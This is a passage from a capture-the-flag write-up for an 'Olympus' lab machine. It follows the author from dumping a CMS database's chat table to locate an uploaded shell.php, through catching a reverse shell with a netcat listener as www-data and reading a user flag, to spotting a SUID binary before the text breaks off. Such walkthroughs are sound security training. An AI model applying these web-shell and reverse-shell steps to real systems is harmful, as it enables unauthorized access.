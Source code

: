 i tried to log into the CMS system. the same credentials worked here too. i needed to find some hint. first i thought file inclusion could reveal the source code of the randomized file name function. i was a bit lost.

![image](/images/Pasted image 20221214225125.png)

i looked again in the database. and then i saw the table name `chat`. dumping this table i got the filenames.

```shell
| 2022-12-14 | Attached : shell.php                                                                                                                                            | 877997437bba50c3bdecc712217cc48d.php | prometheus |
```

after setting up a listener i executed the php code and got a reverse shell in the box.

```shell
$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.11.1.199] from (UNKNOWN) [10.10.9.206] 49928
ls
877997437bba50c3bdecc712217cc48d.php
index.html
id
uid=33(www-data) gid=33(www-data) groups=33(www-data),7777(web)
```

## Privilege Escalation

i found the second flag in the `/home/zeus` folder.

```shell
www-data@olympus:/home/zeus$ ls
snap  user.flag  zeus.txt

www-data@olympus:/home/zeus$ cat user.flag
flag{Y0**********************w3R}
www-data@olympus:/home/zeus$ cat zeus.txt
Hey zeus !


I managed to hack my way back into the olympus eventually.
Looks like the IT kid messed up again !
I've now got a permanent access as a super user to the olympus.



                                                - Prometheus.

```

i did the usual privesc stuff. then i searched for files that are owned by `zeus`.
a interesting binary with the name of `cpuitls` got my attention. the same bin had a `suid` bit set.
